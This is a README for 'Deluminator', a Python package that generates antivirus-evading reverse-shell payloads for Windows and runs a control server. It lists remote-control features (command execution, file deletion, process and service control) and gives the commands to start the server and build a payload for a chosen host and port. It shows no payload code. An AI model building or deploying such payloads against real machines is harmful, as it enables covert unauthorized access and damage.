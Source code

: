# Deluminator

[![License](https://img.shields.io/badge/License-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Description
This package is a reverse shell generator for Windows systems that uses sockets to establish a connection. It is highly capable of bypassing antivirus software. The package includes a control server and comes with a number of useful features.  

## Features
- Root shell `Coming soon`
- System information
- Delete files & folder on the host machine. 
- Execute commands on target machine. 
- Upload/Download any type of files. `Coming soon`
- Get all processes running in a system.
- Kill process by name, id etc...
- Enable/Disable windows services.
- Start/Stop windows service.
- Start/Restart windows system.
- Screenshot `Coming soon`

## How to install
```
pip install deluminator
```  

## Setup Server
```
python aurora.py server --help
```
```
python aurora.py server --host <HOST> --port <PORT>
```

## Build Payload
```
python aurora.py payload --help
```
```
python aurora.py payload --name <NAME> --host <HOST> --port <PORT> --time <RECONNECTION TIME>
```

[Source Code](https://github.com/hxrshdeepsingh/Deluminator) - Github

## Disclaimer
This tool is for educational and testing purposes only. Do not use its payloads on hosts without proper authorization. You are responsible for any consequences resulting from its use.
